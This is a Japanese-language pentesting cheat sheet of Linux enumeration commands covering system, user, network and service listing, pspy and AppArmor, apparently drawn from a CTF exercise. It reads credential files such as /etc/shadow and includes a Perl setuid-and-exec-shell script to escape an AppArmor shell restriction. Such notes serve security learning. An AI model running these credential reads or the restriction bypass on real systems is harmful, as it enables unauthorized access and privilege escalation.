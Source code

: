 # 列挙

## システム

```shell
# ディストリビューション
ls /etc/*-release
hostname

cat /etc/passwd
cat /etc/group
cat /etc/shadow

ls -lh /var/mail/

ls -lh /usr/bin/
ls -lh /sbin/

# インストールされている全てのパッケージ
rpm -qa
dpkg -l
```

## ユーザー

```shell

# ログインしているユーザー
who
# 誰がログインしていて何をしているか
w
# 最後にログインしたユーザー
last

# ユーザーとグループID
id

sudo -l
```

## ネットワーク

```shell
# IPアドレスと短縮形
ip address show
ip a s

# DNS
cat /etc/resolv.conf

# ネットワーク接続、ルーティング
# -a	リスニングソケットと非リスニングソケットの両方を表示
# -l	リスニングソケットのみ表示
# -n	IPアドレスとポート番号を解決する代わりに数値出力を表示
# -t	TCP
# -u	UDPI
# -x    unix
# -p	(要sudo)ソケットが属するプログラムのPIDと名前を表示
sudo netstat -plt
sudo netstat -atupn

ss -tulnp

# ネットワーク接続
sudo lsof -i
# 25ポート関連のみ
sudo lsof -i :25
# 特定のディレクトリ下で開かれているファイル
sudo lsof +D /path/to/directory
```

## サービス

```shell
# 実行中の全てのプロセス
ps -ef

# ASCIIアートでツリー構造を表現
ps axf

# リソース使用率なども含まれる
ps aux

# サービス一覧
systemctl list-units --type=service --state=running

# 状態
systemctl status <service-name>

# 実行ファイルの情報なども確認できる
systemctl cat <service-name>
```

### pspy

非特権ユーザーでもある程度、誰が何を実行しているか分かるツール。  
https://github.com/DominicBreuker/pspy

## AppArmor

パーミッションがあるはずなのにパーミッション不足でエラーになる場合、AppArmor で制限されているかもしれない。

```shell
# 現在のシェルの種類確認
think@publisher:/var/tmp$ echo $0
-ash

# シェル用のルール確認
think@publisher:/var/tmp$ cat /etc/apparmor.d/usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

下記の形で制限を回避できる可能性がある。

```shell
echo  '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /var/tmp/test.pl
chmod +x /var/tmp/test.pl
/var/tmp/test.pl
```

また、書き込み権限があるが上書きエラーになる場合、追記のみ許可されている場合がある。  
lsattr で確認可能。

```shell
# a が表示されたら追記モード
lsattr <file>
-----a--------e----- <file>
```
